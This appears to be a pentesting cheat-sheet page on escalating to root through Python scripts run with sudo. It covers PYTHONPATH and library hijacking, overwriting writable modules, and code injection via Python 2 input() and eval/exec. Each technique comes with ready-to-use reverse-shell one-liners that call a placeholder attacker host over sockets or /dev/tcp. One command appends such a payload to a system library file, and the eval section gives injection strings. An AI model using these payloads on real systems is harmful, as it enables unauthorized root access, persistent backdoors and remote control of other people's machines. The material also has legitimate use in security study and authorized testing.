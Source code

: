 # Python

## Theory 

Python scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, python scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice 

### PYTHONPATH Hijacking 

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights and SETENV,NOPASSWD.
```bash
sudo -l

        (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/scripts/example.py
```
With `SETENV`, we can change PYTHONPATH when executing the script, and insert malicious script to the module which is imported in the script.

Fisrt, we can check what module is imported in the python script (e.g. /opt/scripts/example.py here).
```python
import random

print(random.randint(1, 8))
```
{% endtab %}

{% tab title="Exploit" %}
We can forge the imported module
```bash
$ cat /tmp/random.py

import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

Then run the python script with updating PYTHONPATH in the remote machine.
```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/scripts/example.py
```
{% hint style="info" %}
By setting `PYTHONPATH=/tmp/`, the python script will import modules from `/tmp/` directories so the "random" module is imported from /tmp/random.py.
{% endhint %}

{% endtab %}
{% endtabs %}


### Python Library Overriding

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If the Python script contains a **module that can be modified** by current user, we can inject arbitrary code into the module.
```bash
sudo -l

        (root): /usr/bin/python3 /opt/scripts/example.py
```

Find writable python modules
```bash
$ find / -name "*.py" -writable 2>/dev/null

/usr/lib/python3.11/random.py
```

We can check if modules on which we have write access are imported by the script
```python
import random

print(random.randint(1, 8))
```
{% endtab %}

{% tab title="Exploit" %}
We can append our payload at the end the of the module
```bash
$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING_IP",9002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' >> /usr/lib/python3.11/random.py
```

Then run the python script with sudo
```bash
sudo /usr/bin/python3 /opt/scripts/example.py
```
{% endtab %}
{% endtabs %}


### Python Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If we can **write on the folder containing the script**, then python will prioritize the execution of this module instead of the usual path
```bash
sudo -l

        (root): /usr/bin/python3 /opt/scripts/example.py
```

Check what modules are imported by the script
```python
import random

print(random.randint(1, 8))
```

Check write access
```bash
$ touch /opt/scripts/random.py
```
{% endtab %}

{% tab title="Exploit" %}
Write the malicious module on the same folder as the script
```bash
$ cat /opt/scripts/random.py

#!/usr/bin/bash
import os
os.system('bash -c "/bin/bash -i >& /dev/tcp/<ATTACING_IP>/9001 0>&1"')
```

Then run the python script with sudo
```bash
sudo /usr/bin/python3 /opt/scripts/example.py
```
{% endtab %}
{% endtabs %}


### OS Commands in input()

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `input` function and if it's **python2.x**, the input() function is equivalent to `eval(raw_input)`. Then we can execute arbitrary code.
```bash
sudo -l

        (root): /usr/bin/python2.7 /opt/scripts/example.py
```

Check that the input command is used
```python
compute = input('\nYour expression? => ')
```
{% endtab %}

{% tab title="Exploit" %}
We can enter an OS commands in the input function
```bash
$ sudo /usr/bin/python3 /opt/scripts/example.py

Enter Your expression? => __import__('os').system('id')
#or
Enter Your expression? => __import__('os').system('bash -c "bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1"')
```
{% endtab %}
{% endtabs %}


### OS Commands in Eval() and Exec()

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `eval()` or `exec()` method, then it's vulnerable to arbitrary code execution.
```bash
sudo -l

        (root): /usr/bin/python3 /opt/scripts/example.py
```

Check that one of this commands is used, examples:
```python
#With eval
eval(text)
eval(f"5 + {num}")
print ("Result =", eval(comp))

#With exec
code = input('What command(s) in python did you learn today?')
exec(code)
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code.
```python
__import__('os').system('id')

#Bypass another expression in eval
),__import__('os').system('id')
'),__import__('os').system('id')
},__import__('os').system('id')
),__import__('os').system('id')#

#Example of a ReverseShell
__import__('os').system('bash -c "bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1"')
```
{% endtab %}
{% endtabs %}

### Format String Exploit

{% tabs %}
{% tab title="Enumerate" %}

{% endtab %}

{% tab title="Exploit" %}

{% endtab %}
{% endtabs %}

## References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/" %}

{% embed url="https://mikadmin.fr/blog/linux-privilege-escalation-python-library-hijacking/" %}

{% embed url="https://www.stackhawk.com/blog/command-injection-python/" %}
